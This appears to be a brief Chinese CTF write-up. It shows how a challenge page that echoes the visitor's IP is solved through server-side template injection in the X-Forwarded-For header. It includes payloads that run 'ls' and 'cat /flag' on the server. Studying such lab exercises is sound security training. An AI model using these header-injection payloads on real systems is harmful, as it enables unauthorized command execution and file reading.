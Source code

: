 ![在这里插入图片描述](img/62a7faa312b81cc760030b674c5e9c04.png)
`flag.php`能查出我的ip，肯定是用了什么功能

> [王叹之的解题思路](https://www.cnblogs.com/wangtanzhi/p/12318630.html)

从`XFF`头入手，尝试模板注入
`{{system("ls")}}`
![在这里插入图片描述](img/2933ba2301113bb8345dbc0a73a7dc4b.png)
`X-Forwarded-For:{{system("ls cd ../../../../&cat /flag")}}`
![在这里插入图片描述](img/54d033da3ac176c745de6e8ed829f36f.png)
他直接写`/flag`是因为flag就在根目录下，我添加一下寻找有flag路径的过程解决一下问为什么直接`cat /flag`的疑惑
